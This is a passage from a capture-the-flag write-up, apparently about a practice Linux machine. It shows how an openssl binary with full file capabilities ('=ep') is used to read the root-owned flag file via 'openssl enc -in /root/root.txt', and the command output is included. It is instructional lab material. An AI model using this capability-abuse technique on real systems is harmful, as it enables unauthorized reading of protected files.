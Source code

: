 The interesting files are the two binaries `openssl and tcpdump` in the home directory.

Since previously we used the capabilities of tcpdump I thought maybe that's we can use them again. I used getcap to check for capabilities.

```bash
[ldapuser1@lightweight ~]$ getcap -r .
./tcpdump = cap_net_admin,cap_net_raw+ep                              
./openssl =ep 
```

A quick search led me to this [article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

According to the article this capability means openssl have all the permissions.
If openssl have all the permission then it can be used to read root files.

```bash
[ldapuser1@lightweight ~]$ ./openssl enc -in /root/root.txt -out ./root.txt
[ldapuser1@lightweight ~]$ cat root.txt
5efdbec3c5ffaaaeca73e7ccbcf65555
```

And we got the root flag.